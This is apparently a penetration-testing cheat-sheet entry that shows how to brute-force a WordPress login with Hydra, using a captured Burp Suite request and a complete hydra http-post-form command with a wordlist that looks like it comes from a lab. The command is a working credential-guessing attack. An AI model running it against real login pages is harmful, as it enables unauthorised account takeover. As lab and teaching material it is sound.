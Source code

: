 # Hydra


## Bruteforce HTTP Form

To bruteforce a Login catch the request with burpsuite and for a hydra command.

Burpsuite Request
````
POST /wp-login.php HTTP/1.1
Host: 10.38.1.111
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 101
Origin: http://10.38.1.111
DNT: 1
Connection: close
Referer: http://10.38.1.111/wp-login.php
Cookie: s_fid=68C1BD34EC9C4864-1C81564B06522EDF; s_nr=1643752744400; s_cc=true; s_sq=%5B%5BB%5D%5D; wordpress_test_cookie=WP+Cookie+check
Upgrade-Insecure-Requests: 1

log=admin&pwd=123456&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.38.1.111%2Fwp-admin%2F&testcookie=1
```

Command:
```console
root@machine:~$ hydra -vV -L fsocity.dic.uniq -p wedontcare 192.168.2.4 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'

Options:
    -vV     verbose mode
    -L      use wordlist for Username
    -p      use given password
    -http-post-form     request type

Payload:
    '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'
```

`^USER^` & ``^PASS^`` are used as placeholder. 
``"F=Invalid username"`` is the string for the error message.
---
